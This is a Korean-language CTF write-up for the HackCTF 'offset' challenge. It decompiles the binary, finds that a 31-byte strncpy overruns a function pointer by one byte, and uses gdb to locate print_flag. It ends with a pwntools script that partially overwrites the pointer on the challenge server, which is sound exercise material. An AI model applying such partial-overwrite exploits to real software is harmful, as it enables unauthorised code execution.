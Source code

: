 # Offset

```c
kimdong@ubuntu  ~/Wargame  file offset
offset: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c3936da4c051f1ca58585ee8b243bc9c4a37e437, not stripped

kimdong@ubuntu  ~/Wargame  checksec offset
[*] Checking for new versions of pwntools
   To disable this functionality, set the contents of /home/kimdong/.pwntools-cache-2.7/update to 'never'.
[*] You have the latest version of Pwntools (4.0.1)
[*] '/home/kimdong/Wargame/offset'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
```
이번 바이너리 파일은 canary를 제외한 모든 보호기법이 걸려있는 32-bit 바이너리다.<br>
PIE란 `Position Independent Executable`의 약자로 Code영역을 포함한 모든 영역(Data,Heap,Stack,Libc)를 랜덤하게 매핑시키는 것이다.<br>

```c
kimdong@ubuntu  ~/Wargame  ./offset
Which function would you like to call?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    2118 segmentation fault (core dumped)  ./offset
```
binary를 실행하면 문자열이 출력되고 사용자에게 입력값을 받는 형식이다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int *v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char *)&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```
ida로 main문을 분석해보면, 문자열이 출력되고 s라는 인자를 통해 사용자 입력값을 받고, select_func를 통해 특정 함수를 호출하는것 같다.<br>

```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = two;
  strncpy(&dest, src, 0x1Fu);
  if ( !strcmp(&dest, "one") )
    v3 = one;
  return v3();
}
```
select_func 함수를 보면, strncpy를 통해 31byte만큼 dest에 복사한다.<br>
dest와 one을 비교하여 one인 경우에는 one을 리턴하고, 아닌 경우에는 v3를 그대로 리턴한다.<br>

```c
int print_flag()
{
  char i; // al
  FILE *fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i);
  return putchar(10);
}
```
그다음으로 `print_flag()`함수를 보자.<br>
해당 함수는 flag.txt를 open해주는 함수이다.<br>
따라서 v3의 함수를 print_flag의 주소지로 변경시켜주면 문제를 해결할 수 있을것 같다.<br>
`select_func`에서 dest는 `ebp-0x2A(42)` v3는 `ebp-C(12)`로 둘 사이의 버퍼 시작 주소의 차이는 30byte이다.<br>
하지만 strncpy를 통해 덮어씌울수있는 크기는 31byte이므로, 1byte를 변경할수있다.<br>

```c
gef➤  disas select_func
Dump of assembler code for function select_func:
   0x0000077f <+0>:	push   ebp
   0x00000780 <+1>:	mov    ebp,esp
   0x00000782 <+3>:	push   ebx
   0x00000783 <+4>:	sub    esp,0x34
   0x00000786 <+7>:	call   0x5b0 <__x86.get_pc_thunk.bx>
   0x0000078b <+12>:	add    ebx,0x182d
   0x00000791 <+18>:	lea    eax,[ebx-0x190b]
   0x00000797 <+24>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000079a <+27>:	sub    esp,0x4
   0x0000079d <+30>:	push   0x1f
   0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
   0x000007a2 <+35>:	lea    eax,[ebp-0x2a]
   0x000007a5 <+38>:	push   eax
   0x000007a6 <+39>:	call   0x550 <strncpy@plt>
   0x000007ab <+44>:	add    esp,0x10
   0x000007ae <+47>:	sub    esp,0x8
   0x000007b1 <+50>:	lea    eax,[ebx-0x1675]
   0x000007b7 <+56>:	push   eax
   0x000007b8 <+57>:	lea    eax,[ebp-0x2a]
   0x000007bb <+60>:	push   eax
   0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
   0x000007c1 <+66>:	add    esp,0x10
   0x000007c4 <+69>:	test   eax,eax
   0x000007c6 <+71>:	jne    0x7d1 <select_func+82>
   0x000007c8 <+73>:	lea    eax,[ebx-0x1864]
   0x000007ce <+79>:	mov    DWORD PTR [ebp-0xc],eax
   0x000007d1 <+82>:	mov    eax,DWORD PTR [ebp-0xc]
   0x000007d4 <+85>:	call   eax
   0x000007d6 <+87>:	nop
   0x000007d7 <+88>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000007da <+91>:	leave  
   0x000007db <+92>:	ret    
End of assembler dump.
```
`select_func`함수에서 v3를 호출하는 부분이 <+85>이다.<br>
여기서 breakpoint를 걸고 eax값을 확인해보자.<br>

 ```c
 $eax   : 0x56555600  →  <register_tm_clones+0> call 0x565556a9 <__x86.get_pc_thunk.dx>
$ebx   : 0x56556fb8  →  0x00001ec0
$ecx   : 0x6f      
$edx   : 0xffffd4fe  →  "aaaa"
$esp   : 0xffffd4f0  →  0x00000000
$ebp   : 0xffffd528  →  0xffffd568  →  0x00000000
$esi   : 0xf7fb8000  →  0x001d4d6c ("lM"?)
$edi   : 0x0       
$eip   : 0x565557d4  →  <select_func+85> call eax
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd4f0│+0x0000: 0x00000000	 ← $esp
0xffffd4f4│+0x0004: 0x0000000a
0xffffd4f8│+0x0008: 0x00000026 ("&"?)
0xffffd4fc│+0x000c: 0x616100c2
0xffffd500│+0x0010: 0x00006161 ("aa"?)
0xffffd504│+0x0014: 0x00000000
0xffffd508│+0x0018: 0x00000000
0xffffd50c│+0x001c: 0x00000000
──────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565557c3 <select_func+68> adc    BYTE PTR [ebp-0x72f68a40], al
   0x565557c9 <select_func+74> sbb    DWORD PTR [edi+eiz*8+0x4589ffff], 0xfffffff4
   0x565557d1 <select_func+82> mov    eax, DWORD PTR [ebp-0xc]
 → 0x565557d4 <select_func+85> call   eax
   0x565557d6 <select_func+87> nop    
   0x565557d7 <select_func+88> mov    ebx, DWORD PTR [ebp-0x4]
   0x565557da <select_func+91> leave  
   0x565557db <select_func+92> ret    
   0x565557dc <main+0>         lea    ecx, [esp+0x4]
```
`eax`에 0x56555600의 값이 들어있는것을 확인할수 있다.<br>

```c
gef➤  disas print_flag
Dump of assembler code for function print_flag:
   0x565556d8 <+0>:	push   ebp
```
print_flag의 주소는 `0x565556d8`로 기존 eax값의 뒤 한바이트만 바꿔주면 가능할것같다.<br>

---

## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3007)
payload = "A"*30
payload += "\xd8"

p.recvuntil("Which function would you like to call?")
p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python offset_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3007: Done
[*] Switching to interactive mode

This function is still under development.
HackCTF{}
[*] Got EOF while reading in interactive
```

## END !
